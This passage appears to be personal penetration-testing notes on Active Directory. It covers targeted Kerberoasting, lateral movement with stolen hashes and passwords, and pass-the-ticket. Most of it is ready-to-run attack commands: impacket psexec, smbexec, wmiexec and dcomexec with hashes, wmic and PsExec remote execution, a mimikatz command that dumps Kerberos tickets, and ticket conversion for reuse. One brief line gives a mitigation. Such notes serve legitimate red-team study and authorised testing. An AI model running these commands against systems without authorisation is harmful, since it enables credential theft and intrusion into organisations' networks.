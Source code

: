- targeted Kerberoasting: with GenericWrite or GenericAll permissions on another AD user account, it is possible to set an SPN for the user (setspn.exe), and then execute the kerberoasting attack. It should be reversed after the hash is obtained.
- Mitigation: Avoid SPNs on user acconts. If necessary, use a really strong password.


#### Lateral movement
- ? check logs in other machines
    - ? event viewer > right-click on "Event Viewer (Local)" > "Connect to another computer" > DC address
- Try use credential / hash in other machines through:
    - RDP (3389/tcp)
    - WinRM (5985/tcp, 5986/tcp)
    - SMB shares (look for credentials) (**no admin**)
    - SMB (445/tcp) (admin required)
        * impacket: `impacket-psexec CORP\USER@ADDRESS -hashes HASHES`  # (interactive system shell, more functional)
        * impacket: `impacket-smbexec CORP\USER@ADDRESS -hashes HASHES` # (system shell, more stealthy)
        * impacket: `impacket-atexec CORP\USER@ADDRESS -hashes HASHES` # 
        * impacket: `impacket-wmiexec CORP\USER@ADDRESS -hashes HASHES` # (user shell, more noisy)
        * impacket: `impacket-dcomexec CORP\USER@ADDRESS -hashes HASHES` # (more noisy)
        * windows: `wmic /node:ADDRESS /user:USER /password:PASSWORD process call create "curl.exe ..."`
        * windows sysinternal: `./PsExec.exe -accepteula -i \\TARGET -u corp\user -p PASSWORD cmd`
    - SSH (22/tcp)
        * 1) Over pass the Hash
        * 2) Use the ticket: `ssh -o GSSAPIAuthentication=yes user@domain.local -vv`

##### Pass the ticket
- Idea: find/stole a TGT/TGS ticket and use it
- Ticket Granting Ticket (TGT) -> it can be used for generate TGS for all services the user has access, **default expiration time is 10 hours**
- Ticket Granting Service (TGS) -> just give access to a specific service, **apparentely** default expiration time is the same
    - it may be modified to try to access another service (check tgssub from impacket or Rubeus.exe tgssub, https://www.thehacker.recipes/ad/movement/kerberos/ptt#modifying-the-spn)
- 0) if not admin: look for tickets of the authenticated user
- 1) stole a ticket
    - mimikatz: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::tickets /export" "exit"`
    - dump lsass process memory, then extract tickets from it
        - check "windows privilege escalation" > "LSASS process memory" section
- 2) pass the ticket
    - <b>it IMPORTANT to use the hostname, not only the ip address, when authenticating with kerberos</b>
    - mimikatz:
        * `.\mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"`
        * `klist`
        * `.\PsExec.exe -accepteula \\$targetHostName cmd`
    - impacket:
        * `impacket-ticketConverter ticket.kirbi ticket.ccache`
        * `python impacket/examples/describeTicket.py ticket.ccache`
        * `export KRB5CCNAME=$(pwd)/ticket.ccache`
        * `impacket-psexec -k -no-pass -dc-ip $dcIpAddress -target-ip $targetIpAddress $targetHostName`
